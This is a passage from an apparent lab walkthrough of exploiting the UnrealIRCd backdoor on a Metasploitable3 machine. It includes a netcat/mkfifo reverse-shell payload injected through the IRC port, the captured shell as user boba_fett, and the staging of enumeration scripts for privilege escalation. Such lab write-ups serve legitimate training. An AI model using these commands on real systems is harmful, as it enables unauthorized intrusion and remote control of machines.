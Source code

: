 ```
root@cyb3r:~# tcpdump -ni eth0 icmp
tcpdump: verbose output suppressed, use -v or -vv for full protocol decode
listening on eth0, link-type EN10MB (Ethernet), capture size 262144 bytes
11:20:47.780631 IP 192.168.4.132 > 192.168.4.129: ICMP echo request, id 3340, seq 1, length 64
11:20:47.780684 IP 192.168.4.129 > 192.168.4.132: ICMP echo reply, id 3340, seq 1, length 64
```

Now to get a shell I will use the try and tested command below to receive a reverse shell from the IRC Server

```
root@cyb3r:~# nc 192.168.4.132 6697
:irc.TestIRC.net NOTICE AUTH :*** Looking up your hostname...
:irc.TestIRC.net NOTICE AUTH :*** Couldn't resolve your hostname; using your IP address instead
AB; rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/bash -i 2>&1|nc 192.168.4.129 443 >/tmp/f
```

And in other window, I receive the shell from the server:

```
root@cyb3r:~# rlwrap nc -lvnp 443
Ncat: Version 7.80 ( https://nmap.org/ncat )
Ncat: Listening on :::443
Ncat: Listening on 0.0.0.0:443
Ncat: Connection from 192.168.4.132.
Ncat: Connection from 192.168.4.132:33625.
bash: cannot set terminal process group (1225): Inappropriate ioctl for device
bash: no job control in this shell
boba_fett@metasploitable3-ub1404:/opt/unrealircd/Unreal3.2$ whoami
whoami
boba_fett
boba_fett@metasploitable3-ub1404:/opt/unrealircd/Unreal3.2$

```

## Privilege Escalation

### From boba_fett --> root

In order to gain full root access, further recon is required to find ways in which we can further escalate our current privileges. I usually run the post exploitation scripts such as `LinEnum.sh`, `linux-kernel-exploiter` and `linux-smart-enumeration` script to help automate this stage. First, I need to transfer these scripts to the compromised server and executed them. I will setup a webserver on the attacker machine and use wget to download the files to a location so i can execute them.

```
root@cyb3r:/opt/LinEnum# python -m SimpleHTTPServer 80
Serving HTTP on 0.0.0.0 port 80 ...
192.168.4.132 - - [15/Dec/2019 12:24:25] "GET /LinEnum.sh HTTP/1.1" 200 -

root@cyb3r:/opt/linux-smart-enumeration# python -m SimpleHTTPServer 80
Serving HTTP on 0.0.0.0 port 80 ...
192.168.4.132 - - [15/Dec/2019 12:24:58] "GET /lse.sh HTTP/1.1" 200 -
```
